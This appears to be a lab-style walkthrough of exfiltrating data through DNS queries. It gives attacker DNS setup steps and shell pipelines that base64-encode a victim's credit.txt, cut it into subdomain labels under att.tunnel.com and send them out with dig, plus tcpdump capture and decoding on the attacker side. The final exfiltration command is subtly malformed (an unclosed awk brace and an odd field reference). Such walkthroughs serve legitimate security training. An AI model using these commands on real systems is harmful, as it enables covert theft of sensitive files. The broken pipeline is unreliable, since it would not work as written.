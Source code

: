## Requirements: Control a domain and set up DNS Records (NS,A,TXT,etc)

### 1) Add an A record that points to attacker IP (Type:A, Subdomain Name:tlns, Value:ATTACKER_IP)

### 2) Add an NS record that routes DNS queries to the A records in step 1 (Type:NS, Subdomain name:tl, Value:tlns.example.com)

## Manual Exfil

### 1) Get the required data that needs to be transfered

### 2) Encode the file using one of the encoding techniques

### 3) Send the encoded characters as subdomains/labels

### 4) Consider the limitations of the DNS protocol.

### Note that we can add as much data as we can to the domain name, but we must keep the whole URL under 255 characters and each subdomain label CAN'T exceed 63 characters.

### If we do exceed these limits, we split the data and send more DNS requests!

### Example:

#### 1) Jumpbox: ssh USER@DOMAIN or Attacker: ssh USER@VICTIM_IP -p 2322 (example)

#### 2) Attacker: sudo tcpdump -i eth0 udp port 53 -v 

#### 3) Jumpbox: ssh USER@VICTIM2_DOMAIN or Attacker: ssh USER@VICRIM_IP -p 2122 (example)

#### 4) Victim2: credit.txt

#### 5) cat credit.txt | base64

#### 6) cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed -r 's/.*/&.att.tunnel.com/' (Multiple DNS requests)

#### 7) cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ (Single DNS requests)

#### 8) cat credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $13' | bash (Send base64 data as subdomain)

#### 9) Attacker: echo "BASE64_DATA" | cut -d "." -f1-8 | tr -d "." | base64 -d

